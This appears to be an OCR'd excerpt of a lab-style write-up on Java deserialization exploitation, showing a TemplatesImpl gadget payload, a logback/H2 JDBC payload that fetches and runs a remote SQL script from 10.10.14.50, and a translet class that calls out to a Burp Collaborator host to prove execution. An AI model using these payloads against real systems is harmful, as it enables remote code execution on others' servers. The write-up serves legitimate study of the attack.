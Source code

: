 
---


## Building An Exploit

```java
// Helpfully, the project gave us a starting point to build an effective exploit in one of their unit tests:

{'id': 124,
 'obj':[ 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
  {
    'transletBytecodes' : [ 'AAIAZQ==' ],
    'transletName' : 'a.b',
    'outputProperties' : { }
  }]
}
// This code leverages a well-known ‘gadget’ to create an object that will accept a compile Java object (via transletBytecodes)
// and execute it as soon as outputProperties is accessed.
// This creates a very simple, straightforward technique to exploit this vulnerability.


["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.50:9000/inject.sql'"}]

```


---


## Building The Payload

to prove that we have execution, and the route I went is to have the server issue a GET request to Burp Collaborator. This can be done easily with the following sample code:

```java
import java.io.*;
import java.net.*;

public class Exploit extends com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet {
  public Exploit() throws Exception {
    StringBuilder result = new StringBuilder();
    URL url = new URL("http://[your-url].burpcollaborator.net");
    HttpURLConnection conn = (HttpURLConnection) url.openConnection();
    conn.setRequestMethod("GET");
    BufferedReader rd = new BufferedReader(new InputStreamReader(conn.getInputStream()));
    String line;
    while ((line = rd.readLine()) != null) {
      result.append(line);
    }
    rd.close();
  }

  @Override
  public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) {
  }

  @Override
  public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handler)  {
  }
```